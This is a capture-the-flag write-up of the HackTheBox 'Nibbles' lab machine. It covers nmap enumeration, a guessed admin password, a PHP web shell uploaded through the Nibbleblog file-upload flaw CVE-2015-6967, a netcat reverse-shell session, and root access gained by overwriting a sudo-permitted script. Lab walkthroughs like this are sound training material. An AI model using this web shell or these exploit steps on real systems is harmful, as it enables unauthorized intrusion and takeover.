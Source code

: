 ```yaml
---
tags:
  - hack
  - linux
---
```


# HackTheBox: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

> [!tip]- Summary with Spoilers
> - This machine was running Nibbleblog version `v4.0.3`, which was vulnerable to an authenticated file upload vulnerability (`CVE-2015-6967`).
> - I exploited the vulnerability to upload a malicious PHP shell and gained initial access as `nibbler`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing the execution of the `monitor.sh` script as `root`.

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:

![](_/htb-nibbles-20231811-1.png)

The `/nibbleblog/` URL:

![](_/htb-nibbles-20231811-2.png)

The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:

![](_/htb-nibbles-20231811-3.png)

My IP even shows up here:

![](_/htb-nibbles-20231811-4.png)

And then I guessed the password, which was… `nibbles`:

![](_/htb-nibbles-20231811-5.png)

## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:

![](_/htb-nibbles-20231811-6.png)

That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:

![](_/htb-nibbles-20231811-7.png)

Reverse shell:

![](_/htb-nibbles-20231811-8.png)

```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
